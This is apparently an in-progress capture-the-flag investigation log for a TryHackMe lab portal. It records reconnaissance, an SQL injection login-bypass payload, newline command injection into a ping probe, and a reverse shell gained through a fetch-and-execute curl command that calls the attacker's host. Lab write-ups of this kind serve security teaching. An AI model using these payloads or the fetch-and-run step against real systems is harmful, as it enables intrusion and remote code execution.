







# Security Investigation: Silent Monitor

## Table of Contents

- [1. Investigation Overview](#1-investigation-overview)
- [2. Current Investigation Status](#2-current-investigation-status)
- [3. Scope and Environment](#3-scope-and-environment)
- [4. Investigation Log](#4-investigation-log)
  - [Phase 1: Reconnaissance and Scanning](#phase-1-reconnaissance-and-scanning)
  - [Phase 2: Vulnerability Analysis — Authentication Bypass](#phase-2-vulnerability-analysis--authentication-bypass)
  - [Phase 3: Vulnerability Analysis — Command Injection](#phase-3-vulnerability-analysis--command-injection)
  - [Phase 4: Exploitation — Reverse Shell](#phase-4-exploitation--reverse-shell)
- [5. Vulnerability Candidates](#5-vulnerability-candidates)
- [6. Confirmed Vulnerabilities](#6-confirmed-vulnerabilities)
- [7. Rabbit Holes and Disproven Hypotheses](#7-rabbit-holes-and-disproven-hypotheses)
- [8. Evidence and Artifacts](#8-evidence-and-artifacts)
- [9. Technical Knowledge and Lessons Learned](#9-technical-knowledge-and-lessons-learned)
- [10. Final Investigation Summary](#10-final-investigation-summary)
- [11. Writeup Handoff](#11-writeup-handoff)

## 1. Investigation Overview

- Target / Challenge: Silent Monitor ("Green Lights, Dark Corners") — CorpNet NOC portal
- Platform / Program: TryHackMe
- Investigation Type: CTF
- Scope: `10.48.161.183` (target), via THM VPN/AttackBox from `10.48.78.175`
- Restrictions: Authorized THM lab target only; no destructive testing
- Start Date: 2026-11-03
- Status: In Progress
- Primary Objective: Obtain `user.txt` and `root.txt`

## 2. Current Investigation Status

### Summary

Reconnaissance and scanning identified a Flask app on port 5050 and SSH on 22. A hidden `/internal` login page was found via content discovery. SQL injection in the login query gave an authentication bypass as operator `netops`. The post-auth "Host Health" probe feature was confirmed vulnerable to OS command injection (newline injection into a `ping` command), giving execution as `www-data`. A reverse shell was obtained by hosting a short fetch-and-execute payload externally to stay under the endpoint's input-length filter. A leaked credential (`sysadmin` / see `secret.config` in evidence) was found in the app's source but had not been tested at the point the raw notes end.

### Confirmed Findings

- SQL injection in the `/internal` login query → authentication bypass (operator role).
- Audit log reflects raw, unsanitized login input (stored XSS-adjacent logging issue, not yet exploited further).
- OS command injection in the `/internal/health` "Host Health" probe via newline injection into a `ping` command, executing as `www-data`.
- Input filter on the health probe blocks `|`, `&`, `` ` ``, `$`, `;` (regex in `app.py`, see evidence) and caps total input length at 100 characters; redirection (`>`, `>>`) and `+` are not filtered.

### Active Hypotheses

- Leaked `sysadmin` credential from `secret.config` may work for OS-level pivot via `su` or SSH (port 22) — untested at time of last update.

### Open Questions

- Current shell identity has not been re-confirmed since the reverse shell connected (expected `www-data`).
- Location of `user.txt` and path to privilege escalation are unknown.

### Next Steps

1. Confirm current shell identity (`id`, `whoami`).
2. Test the `sysadmin` credential from `secret.config` against `su` and SSH.
3. Enumerate `/home` for `user.txt`.
4. Begin privilege-escalation enumeration once a stable foothold/identity is confirmed.

## 3. Scope and Environment

### Authorized Targets

- Target machine: `10.48.161.183`

### Restrictions

- Authorized TryHackMe lab target, accessed via THM VPN/AttackBox only.
- No destructive testing.

### Environment

- Attacker machine: `10.48.78.175`

### Initial Information

Room brief frames the target as a NOC monitoring portal with a web dashboard, an "audit log," and a hinted "secret dashboard."

## 4. Investigation Log

### Phase 1: Reconnaissance and Scanning

#### Objective

Identify exposed services and initial attack surface.

#### Observations

Full TCP sweep showed only two open ports: 22 (SSH, OpenSSH 8.9p1 Ubuntu) and 5050 (HTTP, Werkzeug 2.0.2 / Python 3.10.12 — a Flask app). Page title: "CorpNet — Network Operations Centre".

#### Actions and Experiments

- `nmap -p- --min-rate 2000 -T4` full port sweep.
- `nmap -sC -sV -p 22,5050` service/version scan.
- Manual browse of `http://10.48.161.183:5050` and source review of the static landing page (saved as `sources/main-page.html`).
- `gobuster dir` content discovery against port 5050.

#### Results

- The landing page has no links to other routes (no `<a href>`, no `<form>`, no `<script src>`), meaning other endpoints could only be found via content discovery, not by following links.
- `gobuster` found `/internal` → a login page ("CorpNet NOC — Sign In").

#### Analysis

The app deliberately hides its functional routes behind unlinked paths, consistent with the room's "hiding things in places no one thinks to look" framing. SSH was noted but not pursued without evidence of a specific vulnerability or credential.

#### Failed Attempts / Dead Ends

Considered pivoting on "anonymous SSH login" based solely on port 22 being open. Rejected: no evidence (no leaked credential, no banner anomaly) supported it, and SSH has no true anonymous-auth mode by default.

#### Findings

Hidden login endpoint at `/internal`.

#### Evidence

- E-001: Port scan output — see `investigations/silent-monitor/evidence/raw-session-notes.md`.

#### Remaining Questions

What authentication mechanism backs `/internal`, and is it vulnerable?

#### Next Steps

Review the login form and test for injection.

### Phase 2: Vulnerability Analysis — Authentication Bypass

#### Objective

Assess the `/internal` login form for exploitable weaknesses.

#### Observations

Source review of `login.html` (evidence) showed a plain POST form (`username`, `password`), no CSRF token, no client-side validation.

#### Hypotheses

Ranked by cost to validate: (1) weak/guessable credentials — deprioritized, no evidence; (2) SQL injection in the login query — cheap, non-destructive to test; (3) brute-forceable with no rate limiting — expensive, not pursued first.

#### Actions and Experiments

Tested a boolean SQLi payload: `username=admin' OR '1'='1'-- -&password=x`.

#### Results

Authentication bypass succeeded: redirected into the dashboard, logged in as operator `netops`.

#### Analysis

Confirmed finding: SQL injection in the login query (direct string interpolation, confirmed later from `app.py` source), allowing authentication bypass.

#### Failed Attempts / Dead Ends

A single-quote probe (`username=test'`) returned the same generic error as a plain bad login — ruled out an unhandled/leaking SQL error, but did not by itself rule out SQL injection; the boolean payload above is what confirmed it.

#### Findings

Confirmed: SQL injection / authentication bypass on `/internal`.

#### Evidence

Raw session notes, `evidence/raw-session-notes.md`.

*(Not referenced in the raw session notes directly, but captured during this phase; included here as the evidence it is.)*

#### Remaining Questions

None for this phase.

#### Next Steps

Enumerate the authenticated dashboard's attack surface.

### Phase 3: Vulnerability Analysis — Command Injection

#### Objective

Assess the post-authentication "Host Health" probe feature.

#### Observations

Dashboard (`netops`, role OPERATOR) exposes Overview, Host Health, Audit Log, Services. The audit log reflects the raw login `username` field unsanitized (prior failed SQLi/command-injection attempts by other operators are visible verbatim).

`/internal/health` is an "ICMP reachability probe": free-text target + Run Probe, claiming to accept RFC-952 hostnames and IPv4 addresses.

A baseline probe (`127.0.0.1`) returned real `ping` output, and the UI's own output format disclosed the backend command template: `ping -c 2 -W 1 <input>`.

#### Hypotheses

The field passes its value directly into a shell-executed `ping` command without separating it from a second, attacker-supplied command.

#### Actions and Experiments

1. Literal backslash-`n` (`\n` as two characters) in the field → treated as literal text, not a real newline (a single-line HTML input can't carry a raw newline from the keyboard).
2. Literal `%0a` text in the field → passed through un-decoded (double-encoded by the browser on submit); this also means prior audit-log entries with this exact pattern were most likely other operators' failed attempts, not confirmed prior exploitation.
3. A real newline byte sent via `curl --data-urlencode $'target=127.0.0.1\nwhoami'`, bypassing the browser input's limitation entirely.

#### Results

Step 3 returned the `ping` output followed by `www-data` — confirmed OS command injection, executing as `www-data`.

#### Analysis

The two false leads (steps 1 and 2) were valuable: they ruled out "newline via the browser UI" specifically, and reframed an earlier assumption (that audit-log entries showing an injection-like pattern proved prior exploitation) as unconfirmed. Only a raw HTTP request could deliver an actual newline byte.

#### Failed Attempts / Dead Ends

- Literal `\n` text — no effect, confirmed non-execution.
- Literal `%0a` text — passed through literally, un-decoded; no execution.

#### Findings

Confirmed: OS command injection on `/internal/health`, executing as `www-data`.

#### Evidence

`host-health.png` and `run-probe-127.png` are embedded above. Also captured: a `whoami`-alone probe, which `ping` treated as a second hostname argument rather than a separate command (not yet exploitation, but confirmed raw pass-through of the field's content):

#### Remaining Questions

What characters/length does the backend filter, and can a usable shell be obtained within those limits?

#### Next Steps

Characterize the filter and attempt to escalate to an interactive shell.

### Phase 4: Exploitation — Reverse Shell

#### Objective

Obtain an interactive shell as `www-data` through the confirmed command injection.

#### Observations

A full base64-encoded Python3 reverse-shell payload, piped through `base64 -d|sh`, failed with `Invalid hostname or IP address.`

#### Actions and Experiments

Isolated the filter one character/construct at a time via controlled tests (see raw notes for the full table): space/hyphen passed; `|` blocked; `>` redirection passed; `=` (base64 padding) passed; `&` blocked; a 4-line multi-command sequence using only safe characters passed (ruling out a short line-count limit); `+` passed. A bash `/dev/tcp` reverse shell was also attempted and failed, consistent with `&` being blocked (that technique structurally requires `&`).

Read `app.py` and `secret.config` through the same injection (`cat app.py`, `cat secret.config`), saved to evidence.

#### Results

`app.py` confirmed: `PING_BLOCK_RE = re.compile(r"[;|\`$&]")` (blocks `;`, `|`, `` ` ``, `$`, `&`) and a 100-character total input-length cap (`elif len(target) > 100: cmd_err = "Invalid hostname or IP address."`). The original full-payload failure was caused by the length cap, not its characters. `app.py`also confirmed the login SQLi directly:`"...WHERE username = '%s' AND password = '%s'" % (username, pw_hash)`.

`secret.config` leaked a credential: `[backup_agent] run_as = sysadmin, password = <see secret.config in evidence>` — untested at time of writing, candidate for an OS-level pivot.

Final working technique: host the reverse-shell payload externally and inject only a short fetch-and-execute command (`curl ... -o /tmp/s; bash /tmp/s`), staying under the 100-character cap and never exposing the filtered `&`/`|` to the field itself (they live inside the fetched file). This connected a reverse shell on the attacker's listener.

#### Analysis

The injection is real but tightly constrained (character blacklist + length cap). The fix was separating "what's typed into the field" (short, filter-safe) from "what actually runs" (the fetched script, unconstrained).

#### Failed Attempts / Dead Ends

- Full base64 Python3 reverse-shell one-liner — blocked by the length cap, initially misdiagnosed as a character-filtering issue.
- `bash -i >& /dev/tcp/...` — blocked because it requires `&`.
- Pipe-based (`|`) and `&`-based command chaining — blocked by the character filter.

#### Findings

Confirmed: reverse shell as `www-data` obtained via a fetch-and-execute payload that respects the input filter's length and character constraints.

#### Evidence

- `evidence/sources/app.py`
- `evidence/sources/secret.config`

#### Remaining Questions

- Is the shell's identity actually `www-data` (not yet re-confirmed in the new session)?
- Does the leaked `sysadmin` credential work for a pivot?

#### Next Steps

Confirm identity, test the leaked credential, and locate `user.txt`.

## 5. Vulnerability Candidates

### Candidate 1: OS Command Injection via Host Health Probe

- Status: Confirmed
- Affected Asset: `10.48.161.183:5050`
- Affected Endpoint / Functionality: `/internal/health` ("Run Probe")
- Vulnerability Class: OS Command Injection (CWE-78)
- Observation: Backend builds `ping -c 2 -W 1 <input>` from unvalidated user input.
- Hypothesis: A raw newline byte separates a second command from the `ping` invocation.
- Testing Performed: See Phase 3/4 above.
- Evidence: `run-probe-whoami.png`, `reverse-shell.png`, `sources/app.py`.
- Validation Status: Confirmed — direct command execution achieved, escalated to an interactive shell.
- Demonstrated Impact: Remote code execution as `www-data`.
- Potential Impact: Full web-root compromise; pivot point for further lateral movement.
- Remaining Questions: Whether the leaked `sysadmin` credential extends this to an OS-level account.
- Next Steps: Test credential pivot, continue post-exploitation.

### Candidate 2: SQL Injection / Authentication Bypass

- Status: Confirmed
- Affected Asset: `10.48.161.183:5050`
- Affected Endpoint / Functionality: `/internal` (POST login)
- Vulnerability Class: SQL Injection → Authentication Bypass (CWE-89)
- Observation: Login query built via direct string interpolation of `username`/`password`.
- Hypothesis: A boolean injection in `username` bypasses the credential check.
- Testing Performed: See Phase 2 above.
- Evidence: Raw session notes.
- Validation Status: Confirmed.
- Demonstrated Impact: Authenticated access as operator `netops` with zero valid credentials.
- Potential Impact: Gateway to the authenticated attack surface (Phase 3).
- Remaining Questions: None.
- Next Steps: None; superseded by the command-injection foothold.

## 6. Confirmed Vulnerabilities

See Vulnerability Candidates above (Section 5); both are confirmed and no further detail beyond that is pending at this stage of the investigation.

## 7. Rabbit Holes and Disproven Hypotheses

- **Anonymous SSH login:** initial reasoning was "port 22 is open, maybe anonymous auth works." Rejected before testing — no evidence supported it and SSH has no anonymous-auth default. Lesson: don't test a hypothesis that has no supporting evidence at all, even if it's cheap to try.
- **Audit log entries as proof of prior working exploitation:** initial reasoning was that `%0a`-pattern entries in the audit log showed a previous operator had already achieved command injection. Disproven once a literal `%0a` string was shown to pass through un-decoded in this app, meaning those entries were themselves failed attempts. Lesson: an audit log reflecting raw input is evidence of a logging flaw, not evidence that an attack in it actually worked.
- **Full reverse-shell one-liner failing due to character filtering:** initially assumed the blocked characters caused the failure. The real cause (confirmed from source) was a 100-character length cap. Lesson: when a payload fails, isolate variables (length vs. character set) rather than assuming which one is responsible.

## 8. Evidence and Artifacts

| ID    | Description                                                     | Location                                                             | Related Finding |
| ----- | --------------------------------------------------------------- | -------------------------------------------------------------------- | --------------- |
| E-001 | Full raw session notes (nmap, gobuster, all requests/responses) | `investigations/silent-monitor/evidence/raw-session-notes.md`        | All phases      |
| E-002 | Main page screenshot                                            | `investigations/silent-monitor/evidence/images/main-page.png`        | Phase 1         |
| E-003 | Login page source                                               | `investigations/silent-monitor/evidence/sources/login.html`          | Phase 2         |
| E-004 | System overview dashboard screenshot                            | `investigations/silent-monitor/evidence/images/system-overview.png`  | Phase 3         |
| E-005 | Host Health probe UI screenshot                                 | `investigations/silent-monitor/evidence/images/host-health.png`      | Phase 3         |
| E-006 | Baseline probe result screenshot                                | `investigations/silent-monitor/evidence/images/run-probe-127.png`    | Phase 3         |
| E-007 | `whoami` probe result screenshot                                | `investigations/silent-monitor/evidence/images/run-probe-whoami.png` | Phase 3         |
| E-008 | App source (`app.py`)                                           | `investigations/silent-monitor/evidence/sources/app.py`              | Phase 4         |
| E-009 | Leaked config (`secret.config`)                                 | `investigations/silent-monitor/evidence/sources/secret.config`       | Phase 4         |
| E-010 | Reverse shell screenshot                                        | `investigations/silent-monitor/evidence/images/reverse-shell.png`    | Phase 4         |
| E-011 | Main page HTML source                                           | `investigations/silent-monitor/evidence/sources/main-page.html`      | Phase 1         |
| E-012 | Login page screenshot (not referenced in raw notes, captured during the session) | `investigations/silent-monitor/evidence/images/login.png` | Phase 2 |

## 9. Technical Knowledge and Lessons Learned

### Concepts

- OS command injection via newline separation into a single-argument shell command (`ping <input>`), distinct from `;`/`|`/`&` chaining.
- Input filters that block characters but not length (or vice versa) can both be bypassed if you test them independently.

### Techniques

- Isolating a WAF/filter one variable at a time (one character, one construct) rather than guessing a whole bypass payload at once.
- Using `curl --data-urlencode $'...\n...'` to send a raw newline byte a browser `<input>` cannot produce.
- Keeping the injected payload short (fetch-and-execute) to stay under an input-length cap while the unconstrained logic lives in the fetched file.

### Lessons

- An audit log that reflects raw input is itself a finding, but don't treat its contents as proof that a technique worked elsewhere.
- Read the application's own source as soon as you have any read/execute primitive — it answers "why did that payload fail" far faster than more guessing.

### Future Applications

Apply the same "isolate filter dimensions separately" method (character set vs. length vs. encoding) to other injection points in future rooms before concluding a vector is unexploitable.

## 10. Final Investigation Summary

Not yet applicable — investigation is in progress (see Section 2).

## 11. Writeup Handoff

- Investigation File: `investigations/silent-monitor/investigation.md`
- Final Writeup: Not yet created — room is not solved (`user.txt`/`root.txt` not yet obtained).
- Writeup Status: Pending completion of the investigation.
- Important Narrative Events: The two "false lead" newline-encoding attempts (Phase 3) and the length-vs-character misdiagnosis of the first reverse-shell failure (Phase 4) are worth preserving in the eventual writeup as genuine reasoning steps, not just the final working payloads.
- Evidence References: See Section 8.
- Special Instructions: None (no active-challenge flag has been captured yet for this room).
